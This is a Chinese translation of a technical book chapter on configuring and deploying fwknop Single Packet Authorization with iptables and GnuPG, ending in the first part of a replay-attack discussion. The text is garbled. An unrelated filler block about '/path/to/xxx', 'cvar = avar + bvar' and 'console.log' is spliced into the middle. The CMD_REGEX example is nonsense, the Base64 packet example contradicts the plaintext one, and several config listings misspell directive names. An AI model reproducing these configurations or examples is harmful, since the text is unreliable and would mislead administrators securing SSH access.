`GPG_DEFAULT_HOME_DIR` 变量指定用于存储 GnuPG 密钥的目录路径，以便进行数字签名验证和 SPA 数据包解密。默认使用 `root` 家目录下的 `.gnupg` 目录。

```
GPG_DEFAULT_HOME_DIR /root/.gnupg;
```

### ENABLE_TCP_SERVER

`ENABLE_TCP_SERVER` 变量控制 `fwknop` 是否将 TCP 服务器绑定到端口以接收 SPA 数据包数据。如果您想通过仅使用 TCP 进行数据传输的 Tor 网络路由 SPA 数据包，则必须启用此功能。（您可以在第 254 页的“[通过 Tor 使用 SPA](https://example.com)”中找到更多相关信息。）此功能默认禁用。

```
ENABLE_TCP_SERVER N;
```

### TCPSERV_PORT

`TCPSERV_PORT` 变量指定 `fwknop_serv` 守护进程监听 TCP 连接的端口。仅在启用 `ENABLE_TCP_SERVER` 时，`fwknop` 才会使用此项。默认值如下：

```
TCPSERV_PORT 62201;
```

## /etc/fwknop/access.conf

关于 `fwknop.conf` 文件的章节提供了大量关于 `fwknop` 宏观级配置选项的信息，但忽略了对解密密码和分配给用户的授权权限等重要话题的讨论。我将通过介绍 `fwknop` 的 `access.conf` 文件来弥补这一点，该文件定义了 `fwknop` 服务器使用的所有用户名、授权权限、解密密钥、`iptables` 规则超时时间和命令通道。

# 来源

`fwknop` 支持来自任意 IP 地址的多个用户授权；每个用户可以使用不同的加密密钥（以及相关的加密算法）。`SOURCE` 是主要的划分变量，允许 `fwknop` 确定一个有效的 SPA 数据包的访问级别，并且 `access.conf` 文件中的每组配置变量定义了一个完整的源访问定义。`access.conf` 文件支持多个 `SOURCE` 访问定义。`SOURCE` 变量的默认值指示 `fwknop` 验证来自任何源 IP 地址的 SPA 数据包，如下所示，但同时也支持单个 IP 地址和 CIDR 网络。

```
SOURCE: ANY;
```

## OPEN_PORTS

`OPEN_PORTS` 变量指示 `fwknop` 通过重新配置本地 `iptables` 策略来授予对指定端口的访问权限。除非 `PERMIT_CLIENT_PORTS` 变量（见下文）被设置为 `y`，否则客户端无法访问除 `OPEN_PORTS` 中列出以外的任何服务。以下定义允许一个有效的 SPA 数据包重新配置 `iptables` 以允许访问 TCP 端口 22 (SSHD)。

```
OPEN_PORTS: tcp/22;
```

## PERMIT_CLIENT_PORTS

当设置为 `y` 时，该变量允许 `fwknop` 客户端向 `fwknop` 服务器指定将允许通过 `iptables` 策略的流量集（即端口和协议），而不是由 `fwknop` 服务器仅重新配置 `iptables` 以允许 `OPEN_PORTS` 变量定义的流量。一个 SPA 数据包可能包含客户端希望访问的多个端口（更多信息请参阅第 241 页的“fwknop SPA 数据包格式”）。

```
PERMIT_CLIENT_PORTS: Y;
```

## ENABLE_CMD_EXEC

启用后，此变量允许经过授权的 SPA 客户端让 `fwknop` 服务器代表他们执行命令。这个功能存在争议，因为 `fwknop`（截至 1.0 版本）以 `root` 身份执行这些命令，尽管以低权限用户运行命令的功能正在开发中。如果你想使用 `ENABLE_CMD_EXEC` 功能，必须显式且刻意地将其启用。

```
ENABLE_CMD_EXEC: Y;
```

## CMD_REGEX


`CMD_REGEX`变量允许你提供一个正则表达式，fwknop 服务器在执行由 fwknop 客户端提供的命令之前，该命令必须与此正则表达式匹配。仅在将`ENABLE_CMD_EXEC`设置为`Y`的情况下使用此变量才有意义。例如，为了将 fwknop 服务器代表 fwknop 客户端执行的命令限制在`mail`命令的变体中，你可以使用以下内容：

```
CMD_REGEX: "\mail\s+\s+\s+"\w+"\w+"\s+\w+\w+\w+".com;
```

## DATA_COLLECT_MODE

`DATA_COLLECT_MODE`变量接受与`fwknop.conf`文件中`AUTH_MODE`变量相同的数据包采集模式。这允许`access.conf`文件中的每个`SOURCE`访问定义根据`AUTH_MODE`变量的值被独立启用或禁用。只有那些`DATA_COLLECT_MODE`值与`AUTH_MODE`变量匹配的`SOURCE`访问定义才会被启用。不过，`DATA_COLLECT_MODE`变量是可选的，如果`access.conf`文件中省略了它，fwknop 守护进程将假设它被设置为`PCAP`（最常用的设置）。

```
DATA_COLLECT_MODE: PCAP;
```

## REQUIRE_USERNAME

`REQUIRE_USERNAME`变量是指在远程系统上执行 fwknop 客户端以生成 SPA 数据包的用户的用户名。该用户名包含在所有 SPA 数据包中（更多信息请参阅第 241 页的“fwknop SPA 数据包格式”）。远程用户名允许 fwknop 对传入的 SPA 数据包应用授权规则。`REQUIRE_USERNAME`变量支持多个用户名，如果客户端侧有多个用户共用一个站点或系统范围的加密密钥，这会非常有用。

```
REQUIRE_USERNAME: mbr,mrash;
```

## FW_ACCESS_TIMEOUT

`FW_ACCESS_TIMEOUT`变量告知 fwknop 服务器，任何 iptables `ACCEPT`规则在`FWKNOP_INPUT`链中实例化的秒数，从而允许访问有效 SPA 数据包请求的服务。

```
FW_ACCESS_TIMEOUT: 30;
```

## KEY

`KEY`变量定义了用于解密使用 Rijndael 分组密码加密的 SPA 数据包的加密密钥。它需要一个至少八个字符长的参数。

```
KEY: yourencryptkey;
```

## GPG_DECRYPT_ID

`GPG_DECRYPT_ID`变量指定了 fwknop 服务器 GnuPG 公钥的唯一标识符，fwknop 客户端使用该公钥对 SPA 数据包进行加密。该唯一标识符可以通过`gpg --list-keys`命令的输出获得，通常是一个由八个十六进制字符组成的字符串。

```
GPG_DECRYPT_ID: ABCD1234;
```

## GPG_DECRYPT_PW

`GPG_DECRYPT_PW`变量持有 fwknop 服务器 GnuPG 公钥的解密密码，fwknop 客户端使用该公钥进行加密。由于此密码包含在明文文件中，你应该生成一个新的 GnuPG 密钥仅用作 fwknop 服务器密钥，而不是使用一个你可能用于其他用途（如机密电子邮件通信）的重要 GnuPG 密钥。

```
GPG_DECRYPT_PW: gpgdecryptionpw;
```

## GPG_REMOTE_ID

`GPG_REMOTE_ID`变量包含 fwknop 客户端用于对 SPA 数据包进行数字签名的 GnuPG 密钥的唯一标识符。该密钥需要被导入到 fwknop 服务器的密钥环中（参阅第 246 页的“[通过非对称加密实现 SPA](...)”）。

```
GPG_REMOTE_ID: DEFG5678;
```

## /etc/fwknop/access.conf 文件示例

接下来，你将把所有这些信息整合在一起，创建一个完整的`access.conf`文件，用于保护你的 SSH 服务器。（你可以在第 243 页的“[部署 fwknop](...)”中找到操作示例）。

使用你喜欢的编辑器打开`/etc/fwknop/access.conf`文件，并添加下面列出的配置指令。

```
# cat /etc/fwknop/access.conf
SOURCE: ANY;
OPEN_PORTS: tcp/22;
FW_ACCESS_TIMEOUT: 30;
BOGUS_USER_USERNAME: nbr;
KEY: mypassword;
GPG_DECRYPT_PW: gpgdecryptpassword;
GPG_HOME_DIR: /root/.gnupg;
GPG_REMOTE_ID: DEFG5678;
GPG_DECRYPT_ID: ABCD1234;
```

`SOURCE: ANY`意味着 fwknop 守护进程将接受来自任何源 IP 地址的有效 SPA 数据包。如果你在旅途中，无法预测你的笔记本电脑或其他系统将连接到哪个网络，这会非常方便。

`OPEN_PORTS: tcp/22`意味着 fwknop 守护进程将通过本地 iptables 防火墙的`ACCEPT`规则授予对 SSH 端口的临时访问权限。正如`FW_ACCESS_TIMEOUT`变量所指定的，该`ACCEPT`规则将在 30 秒后被删除。

`REQUIRE_USERNAME: mbr`强制要求运行 fwknop 客户端的远程用户名为`mbr`。在这种情况下，fwknop 守护进程被配置为接受使用 Rijndael 对称加密（`KEY: mypassword`）或使用 GnuPG 密钥非对称加密（`GPG_DECRYPT_PW: gpgdecryptpassword`，通常使用 Elgamal 密码）的 SPA 数据包。对于使用 GnuPG 加密的 SPA 数据包，fwknop 守护进程要求远程签名密钥的 ID 为`DEFG5678`，本地解密密钥的 ID 为`ABCD1234`——分别参见`GPG_REMOTE_ID`和`GPG_DECRYPT_ID`变量。

- 关于`IPT_AUTO_CHAIN(n)`变量的详细解释可以在第 135 页的“[配置变量](https://example.com)”中找到。`IPT_AUTO_CHAIN(n)`变量提供了对`IPTables::ChainMgr`模块的接口，该接口在 psad 和 fwknop 中均有使用。

- Sebastien Jeanquier 提醒我注意了这种攻击，其结果是推出了`ENABLE_SPA_PACKET_AGING`功能（首次在 0.9.9 版本中提供），用于实现 fwknop 服务器接受 SPA 数据包的时间窗口。

- fwknop 可以从`gpg-agent`获取私钥信息。

## fwknop SPA 数据包格式

每个 SPA 数据包都根据一套定义良好的规则构建。这些规则使 fwknop 服务器能够确信通过 iptables 防火墙请求的访问类型以及请求者是谁。在接受来自 fwknop 客户端命令行（参阅第 244 页的“[通过对称加密实现 SPA](page244)”和第 246 页的“[通过非对称加密实现 SPA](page246)”）的用户输入后，每个 SPA 数据包包含以下内容：

### 随机数据 (16 字节)

这提供了足够的随机信息，以确保 fwknop 生成的每个 SPA 数据包都是唯一的——至少，数据包的唯一性达到了 Perl 函数`rand()`在每次调用时能够产生的随机程度。（对于 Perl 5.004 及更高版本，`srand()`函数在第一次使用`rand()`函数时会被隐式调用。）

### 用户名

这是执行 fwknop 命令的用户名称，由`getlogin()`返回——如果`getLogin()`失败，则由`getpwuid()`返回。fwknop 服务器使用此用户名来确定远程用户是否有权访问服务或运行命令。（请注意，当 fwknop 服务器看到用户名时，SPA 数据包已经成功解密，这意味着 SPA 数据包已通过身份验证，可以开始验证授权的过程。）

### 时间戳

这是本地系统的时间戳。fwknop 服务器使用此值来确定 SPA 数据包是否处于由`MAX_SPA_PACKET_AGE`变量定义的时间访问窗口内。

### 软件版本

这是 fwknop 客户端的版本：

```
[mbr@spaclint ~]$ fwknop --Version
[+] fwknop v1.8.1 (file revision: 694)
    by Michael Rash <mbr@cipherdyne.org>
```

例如，在这种情况下，软件版本字段将包含值`1.0`。如果 SPA 数据包格式发生变化，fwknop 服务器将使用此信息以保持与旧版客户端的向后兼容性。

### 模式

这告知 fwknop 服务器 SPA 客户端是否希望运行一个命令。访问模式的默认值为`1`；命令模式由`0`表示。

## 访问指令 (Access directive)

该字符串告知 fwknop 服务器，当策略被修改时，客户端希望 iptables 防火墙接受哪种类型的流量。fwknop 服务器解析该字符串中的端口和协议，以指示 iptables 予以接受，并相应地重新配置策略。例如，如果客户端希望同时访问 TCP 端口 22 和 UDP 端口 1194（OpenVPN 所使用），则该字符串为`client IP,tcp/22,udp/1194`。fwknop 服务器控制用户是否可以请求打开特定端口。如果仅允许打开某些端口，则必须在`access.conf`文件中定义。（有关更多信息，请参阅第 238 页的“[开放端口](page_link)”和“[允许客户端端口](page_link)”。）

## 命令字符串 (Command string)

该字符串是一个完整的命令，fwknop 客户端希望在服务器上执行；例如，`/etc/init.d/apache2 restart`或`mail -s "output" you@domain.com`。如果使用不当，此功能可能会给 fwknop 服务器带来安全风险，因此默认情况下它是禁用的。（有关更多信息，请参阅第 238 页的“[启用命令执行](page_link)”和“[命令正则表达式](page_link)”。）

## 数据包 MD5 校验和 (Packet MD5 sum)

该 MD5 校验和由 fwknop 客户端计算，并包含在 SPA 数据包中，以增加一种置信度，确保数据包在网络传输过程中未被篡改。通常，加密算法本身就提供了足够的安全性，因为解密被篡改的密文通常不会产生有效的明文；然而，包含 MD5 校验和允许 fwknop 服务器独立地确认客户端发送的数据与服务器实际接收的数据一致。

## 服务器认证方法 (Server authentication method)

fwknop 0.9.6 版本在数据包格式中添加了此字段，允许 fwknop 服务器在 SPA 数据包中要求额外的认证参数。例如，服务器可能要求远程 fwknop 客户端输入本地用户的`crypt()`密码。在这种情况下，认证方法字符串可能是`crypt_password`。

在 SPA 数据包被加密并默认通过 UDP 端口 62201 发送之前，上述字段会被 Base64 编码，然后用冒号连接。这种编码确保了冒号分隔符的唯一性，即使是在编码前可能包含冒号的字段之间也是如此。当你将所有这些字段在不进行 Base64 编码的情况下组合时，会得到类似下面的内容：

```
9562145998506823:mbr:1161142204:0.1:0.0.0.0,tcp//22:koEtBtDL0ze22sNRyfASoA
```

一旦对单个字段进行 Base64 编码，你会得到：

```
9562145998506823:bnJy:0.1:1161142204:0.1:0.1:MCkxWwJauMCx0Y3AvMjI=:koEtBtDL0ze22sNRyfASoA
```

最后，数据包数据使用 Rijndael 对称加密算法或 GnuPG 支持的非对称加密算法进行加密（GnuPG 默认使用 Elgamal 非对称加密算法）。如果你使用 Rijndael 加密，结果如下：

```
U2FsdBAvKk1803i3n8BfSpG6wCaf8zC4CgLs1f2STIQTNwxSaCQ3IP1SNW9n1sJ5zr8Ju7zYx10
FzM2fF2pDFGbyAJU0oxree7WyhZrd113ympcEepdx/QsNWo1bdub/AD8OkW9aV232sRCINwCsPuc9Q
```

每个 SPA 数据包都使用对称密钥加密算法或非对称密钥加密算法进行加密和解密。*对称密钥加密算法*是一种使用相同密钥对数据进行加密和解密的算法（因此被称为“对称”）。被选为高级加密标准 (AES) 的 Rijndael 算法就是对称密钥加密算法的一个重要例子。另一方面，*非对称密钥加密算法*是一种使用一对密钥对数据进行加密和解密的算法：公钥（公开发布）和私钥（严格保密）。这两个密钥通过数学难题相关联，但它们并不相同（因此被称为*非对称*）。

## 部署 fwknop

既然你已经对 fwknop 中可用的配置选项有了深入了解，现在是时候来看几个具体的实际操作示例了。在每个案例中，fwknop 客户端都被用于在 fwknop 服务器重新配置后，通过默认丢弃 (default-drop) 的 iptables 策略来获取 SSHD 的访问权限。图 13-1 中的网络图可帮助你直观地理解这些场景。



图 13-1. 一个 SPA 网络

在下面的每个场景中，fwknop 客户端在标记为`spaclient`的系统上运行，并将 SPA 数据包发送到标记为`spaserver`的系统。图 13-1 中的虚线代表 SPA 数据包，只有在 SPA 数据包向`spaserver`系统传达了所需的访问请求，且 iptables 被重新配置为允许该访问之后，随后的 SSH 连接才能建立。

### 通过对称加密实现 SPA

fwknop 客户端拥有一套丰富的命令行选项，允许你告诉 fwknop 服务器你希望 iptables 策略授予的具体访问权限。如果你使用这些命令行选项，必须包含访问或命令字符串、源 IP 地址解析方法以及 fwknop 服务器的目标 IP 地址。

你可以假设本地 iptables 策略会丢弃 fwknop 服务器`INPUT`链中所有发往 TCP 端口 22 的数据包。首先配置`fwknop.conf`文件，将`AUTH_MODE`设置为`PCAP`，确保`PCAP_INTF`设置为`eth0`，并将`access.conf`文件设置为以下内容。（请注意，本示例中不包含 GnuPG 指令，如`GPG_REMOTE_ID`或`GPG_DECRYPT_PW`。）

```
[root@spaserver ~]# cat /etc/fwknop/access.conf
SOURCE: ANY;
OPEN_PORTS: tcp/22;
REQUIRE_USERNAME: mbr;
KEY: myencryptkey;
PW_ACCESS_TIMEOUT: 30;
```

使用下面的命令①启动 fwknop 服务器并②验证其是否正在运行。通过检查 syslog 消息，你会看到`fwknopd`已准备好接收来自③一个源块（源自上述`access.conf`文件）的 SPA 数据包，并且④导入了现有的 SPA 数据包 MD5 校验和磁盘缓存。最后，确保⑤运行主机上的 SSHD 已启动。

```
[ root@spaserver ~]# /etc/init.d/fwknop start
 Starting fwknop ... [ ok ]
 [ root@spaserver ~]# /etc/init.d/sshd status
 * status: started
 [root@spaserver ~]# tail /var/log/messages
 Oct 17 23:59:53 spaserver fwknopd: starting fwknopd
 Oct 17 23:59:53 spaserver fwknopd: flushing existing Netfilter IPT_AUTO_CHAIN chains
 Oct 17 23:59:53 spaserver fwknopd: imported direct addresses (1 SOURCE definitions)
 Oct 17 23:59:53 spaserver fwknopd: imported previous md5 sums from disk cache: /var/log/fwknop/md5sums
 [ root@spaserver ~]# /etc/init.d/sshd status
 * status: started
```

在 fwknop 服务器启动并运行后，你可以测试从 fwknop 客户端系统是否可以访问 SSHD，然后使用 fwknop 来获得访问权限。①处的`-A tcp/22`命令行参数告诉 fwknop 服务器客户端希望访问 TCP 端口 22；②处的`-r`参数指示 fwknop 客户端自动解析发送 SPA 数据包的外部可路由地址（通过查询`http://www.whatismyip.com`实现）；③处的`-k`参数告诉 fwknop 客户端将 SPA 数据包发送到`spaserver`主机。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

---

```
[mbr@spaclient ~]$ nc -v spaserver 22
[mbr@spaclient ~]$ fwknop -A tcp/22 -R 0 -k spaserver
[+] Starting fwknop in client mode.
[+] Resolving hostname: spaserver
 Resolving external IP via: http://www.whatismyip.com/
 Got external address: 204.23.X.X

[+] Enter an encryption key. This key must match a key in the file
 /etc/fwknop/access.conf on the remote system.

Encryption Key:

[+] Building encrypted Single Packet Authorization (SPA) message...
[+] Packet fields:

 Random data: 2282553423001461
 Username: mbr
 Timestamp: 1161146338
 Version: 1.0
 Action: 1 (access mode)
 Access: 204.23.X.X,tcp/22
 MD5 sum: wvWqrZoquZdZ+xaqPO1KwA

[+] Sending 150 byte message to 71.157.X.X over udp/62201...
[mbr@spaserver ~]$ ssh spaserver
Password: 
[mbr@spaserver ~]$
```

上述列出的最后一行显示你现在已登录到`spaserver`主机，验证了你对 SSHD 的访问权限。下面，fwknop 服务器写入 syslog 的消息告诉你，`fwknopd`已成功接收并解密了 fwknop 客户端发送的 SPA 数据包，并且已添加一条`ACCEPT`规则，允许 IP 地址`204.23.X.X`在 30 秒内连接 TCP 端口 22。随后`ACCEPT`规则被移除。（虽然此处未显示，但系统还会向`fwknop.conf`中`EMAIL_ADDRESSES`变量定义的地址发送电子邮件，以通知你 fwknop 何时授予和移除 SPA 客户端的访问权限。）

```
Oct 18 00:38:58 spaserver fwknopd: received Valid rijndael encrypted packet from: 204.23.X.X, remote user: mbr
Oct 18 00:38:58 spaserver fwknopd: adding FWKNOP_INPUT ACCEPT rule for 204.23.X.X -> tcp/22, (30 seconds)
Oct 18 00:39:28 spaserver knoptrt: removed IPTables FWKNOP_INPUT ACCEPT rule for 204.23.X.X -> tcp/22, 30 second timeout exceeded
```

fwknop 服务器在自定义链`FWKNOP_INPUT`中添加和删除所有 SPA 访问规则，而不是在任何内置链（如`INPUT`或`FORWARD`）中进行。这使它能将现有 iptables 策略中的规则与它操纵的规则严格分开，这意味着你无需担心 fwknop 规则与 iptables 策略中任何现有规则发生冲突。你可以在 30 秒定时器到期之前，在 fwknop 服务器上执行以下命令，以查看授予 SSHD 访问权限的 iptables 规则。

```
[root@spaserver ~]# fwknopd --fw-list
[+] Listing chains from IPT_AUTO_CHAIN keywords...
```

| Chain FWKNOP_INPUT (1 references) | | | | | | | |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| pkts | bytes | target | prot | opt | in | source | destination |
| 11 | 812 | ACCEPT | tcp | - | * | 204.23.X.X | 0.0.0.0/0 tcp dpt:22 |

在本例中，fwknop 服务器已重新配置 iptables 以允许在 30 秒内访问 SSHD；随后`fwknopd`将从`FWKNOP_INPUT`链中删除该`ACCEPT`规则。虽然大多数 SSH 连接持续时间超过 30 秒，但只要使用 Netfilter 连接跟踪功能，这就不是一个严重的限制，因为它可以允许客户端和服务器之间已建立的 TCP 连接保持打开状态：

```
[root@spaserver ~]# iptables -I INPUT 1 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

### 通过非对称加密实现 SPA

密钥交换问题是密码学领域的核心问题，而公钥加密系统提供的创新解决方案使其脱颖而出。与对称加密（其密钥必须在不安全通道中以明文形式在两方之间共享）不同，非对称加密依赖于一种机制，人们通过该机制主动发布公钥/私钥对中的公开部分。例如，当 A 某使用 B 某的公钥加密数据时，只有 B 某能通过结合公钥和私钥的特定操作（该操作可解开数据的锁）来解密密文。这个“锁”是由一个数学难题构建的，如果在没有公钥和私钥共同访问权限的情况下，求解该难题在计算上是非常昂贵的。

## fwknop 的 GnuPG 密钥交换

为了在 fwknop 中使用 GnuPG 密钥，您必须创建服务器的公钥并将其导入客户端的密钥环中，反之亦然。由于客户端密钥的解密密码从未存储在文件中，因此在 fwknop 客户端中使用任何 GnuPG 密钥都是安全的。不过，为了便于讨论，我将生成新的客户端和服务器密钥，并按以下方式导入（为了简洁，部分输出已删除）。

```
[mbr@spaclient ~]$ gpg --gen-key
gpg (GnuPG) 1.4.5; Copyright (C) 2006 Free Software Foundation, Inc.

Please select what kind of key you want:
  (1) DSA and Elgamal (default)
  (2) DSA (sign only)
  (3) RSA (sign only)
Your selection> 1
DSA keypair will have 1024 bits.
ELG-E keys may be between 1024 and 4096 bits long.
What keysize do you want? (2048)
Requested keysize is 2048 bits
Please specify how long the key should be valid.
0 = key does not expire

Key is valid for? (0)
Key does not expire at all
Is this correct? (y/N) y

You need user ID to identify your key; the software constructs the user ID
from the Real Name, Comment and Email Address in this form:
"Heinrich Heine (der Dichter) <heinrichh@duesseldorf.de>"

Real name: Michael Rash
Email address: mbr@cipherdyne.org
Comment: Linux Firewalls fwknop_client key
You selected this USER-ID:
"Michael Rash (Linux Firewalls fwknop_client key) <mbr@cipherdyne.org>"

Change (R)ename, (C)omment, (E)mail or (O)kay/(Q)uit? O
You need a passphrase to protect your secret key.
Enter passphrase:
```

```
[mbr@spaclient ~]$ gpg --list-keys "fwknop_client"
pub 1024D/AB74C36 2007-10-18
uid Michael Rash (Linux Firewalls fwknop_client key)
    <mbr@cipherdyne.org>
```

使用 4,096 位 Elgamal 密钥加密的 SPA 消息相关的密文数据长度通常远超以太网 1,500 字节的 MTU，因此选择了 2,048 位的密钥长度（如上文**粗体**所示）。

现在我们将客户端公钥导出到文件中：

```
[mbr@spaclient ~]$ gpg --export-key "fwknop_client" > fwknop_client.asc
```

在 fwknop 服务器上执行类似过程，在服务器端重复密钥生成和导出命令：

```
[root@spaserver ~]# gpg --gen-key
[root@spaserver]# gpg --list-keys "fwknop_server"
    pub   10240/25B01B3A 2007-10-18
    uid   Michael Rash (Linux Firewalls fwknop server key)
    sub   2048g/29B2FD6C 2007-10-18
[root@spaserver]# gpg --export "fwknop_server" > fwknop_server.asc
```

最后，您需要将公钥传输到各自的系统中，导入并对其进行签名。导入步骤是为了确保服务器的公钥存在于客户端的 GnuPG 密钥环中，反之亦然。签名步骤对于 fwknop 验证已签名 SPA 数据包实体的身份至关重要。虽然我将通过`scp`传输公钥，但鉴于公钥加密系统的特性，我也可以将密钥发布在网页上供所有人查看，而不会产生任何负面的安全影响。同样重要的是，SSH 并不总是可访问的（事实上，它将被 fwknop 设置故意防火墙拦截），因此有时可能需要其他公钥传输机制。以下是一些简化的命令输出（`scp`传输在 ❶ 和 ❷ 中，导入和签名命令从 ❸ 开始）。

```
❶ [mbr@spaclient ~]$ scp fwknop_client.asc root@spaserver:
Password:
❷ [mbr@spaclient ~]$ scp root@spaserver:fwknop_server.asc .
Password:
❸ [mbr@spaclient ~]$ gpg --import fwknop_server.asc
gpg key 25B01B3A: public key 'Michael Rash (Linux Firewalls fwknop server key)
[mbr@cipherdyne.org] imported
gpg: Total number processed: 1
gpg: imported: 1
[mbr@spaclient ~]$ gpg --default-key "fwknop_client" --sign-key "fwknop_server"
[mbr@spaclient ~]$ ssh -l root spaserver
Password:
❶ [root@spaserver]# gpg --import fwknop_client.asc
gpg key AB743C36: public key 'Michael Rash (Linux Firewalls fwknop client key)
[mbr@cipherdyne.org] imported
gpg: Total number processed: 1
gpg: imported: 1
[root@spaserver]# gpg --default-key "fwknop_server" --sign-key "fwknop_client"
Password:
```

### 使用 GnuPG 密钥运行 fwknop

在 fwknop 客户端和服务器的密钥环中导入并签名 GnuPG 密钥后，就可以看看 fwknop 在 GnuPG 驱动下的实际运行情况了。首先，fwknop 服务器上的`access.conf`文件必须包含正确的 GnuPG 访问定义。❶ 处的 SOURCE 块指令告知`fwknopd`要求 SPA 数据包必须使用`fwknop_server`密钥加密，并使用`fwknop_client`密钥签名。此外，如 ❷ 所示，使用了 mutables 来关闭对 SSHD 的访问，且如 ❸ 所示，fwknop 必须处于运行状态。

```bash
[root@spaserver ~]# cat /etc/fwknop/access.conf
❶ SOURCE any;
  OPEN PORTS: tcp/22;
  REQUIRE USERNAME: mbr;
  GPG_HOME_DIR: /root/.gnupg;
  GPG_DECRYPT ID: fwknop_server;
  GPG_DECRYPT Pw: GPGdecryptpw;
  GPG_REMOTE_ID: fwknop_client;
❷ FW_ACCESS TIMEOUT: 30
❸ [root@spaserver ~]# iptables -I INPUT -p tcp --dport 22 -j DROP
[root@spaserver ~]# iptables -I INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
[root@spaserver ~]# /etc/init.d/fwknop start
Starting fwknop ... [ ok ]
```

现在，从`spatient`系统出发，您可以使用 Netcat 来检查 SSHD 确实无法访问，并使用 fwknop 通过 iptables 获取访问权限。下面最后一行表示您已成功登录到`spaserver`系统。

```bash
[mbr@spatient ~]$ nc -v spaserver 22
[mbr@spatient ~]$ fwknop -A tcp/22 -g gpg-recip "fwknop-server" --gpg-sign
  "fwknop_client" -R -k spaserver
[mbr@spatient ~]$ ssh -l root spaserver
Password:
[root@spaserver ~]#
```

与指示 fwknop 使用 Rijndael 对称加密的情况一样，fwknop 服务器会向 syslog 写入几条消息。不过这一次，有了新的信息表明 GnuPG 加密的 SPA 消息是由 ❶ 所要求的密钥 ID（在`access.conf`的`GPG_REMOTE_ID`变量中定义）签名的。像往常一样，一条 iptables 允许规则在 ❷ 处被添加，并在 30 秒后在 ❸ 处被删除。

```text
Oct 18 15:48:07 spaserver fwknopd: received valid GnuPG encrypted packet (signed with
required key ID: ❶ "fwknop_client") from: 204.23.X.X, remote
user: mbr
❷ Oct 18 15:48:07 spaserver fwknopd: adding FWKNOP_INPUT ACCEPT rule for 204.23.X.
X = tcp/22 (30 seconds)
❸ Oct 18 15:48:37 spaserver knoptool: removed iptables FWKNOP_INPUT ACCEPT rule for
204.23.X.X -> tcp/22, 30 second timeout exceeded
```

## 检测并阻止重放攻击

到目前为止，您已经看到了 fwknop 在旨在减少 SSHD 攻击面方面的合法用途。当 SPA 数据包在不受信任的网络上传输时，任何能够监听线路数据包的人都可以将其保存、分析并重放。我曾提到，fwknop 的 SPA 实现通过比较传入 SPA 消息的 MD5 校验和，非常适合挫败重放攻击，下面是一个具体的例子。

在图 13-2 中，攻击者位于互联网云端，监视从`spaclient`系统传输到`spaserver`系统的 SPA 数据包。攻击者使用`tcpdump`将 SPA 数据包捕获到文件中（`spa.pcap`），并对其进行检查，发现数据包是加密的乱码。然后，攻击者使用`ctreplay`将数据包在网络上重新发送，如图 13-2 中标记为 *Replayed SPA Packet* 的虚线所示。



**图 13-2. 攻击者监视并重放 SPA 数据包**


完成 SPA 数据包重放的命令序列如下。首先，`spaclient` 系统在 ① 处向 `spaserver` 系统发送一个有效的 SPA 数据包。`fwknop -L` 命令行参数允许 `fwknop` 回忆上次针对 `fwknop` 服务器主机使用的命令行选项。这对于简化相对复杂的 `fwknop` 命令行界面非常方便。当 SPA 数据包在网络上传输时，攻击者 ② 使用 `tcpdump` 捕获数据包，并 ③ 发现其内容无法理解。因此，攻击者推断出该数据包可能是一个 SPA 数据包（特别是考虑到该数据包是在 `fwknop` 使用的默认端口 UDP 62201 上捕获的）。

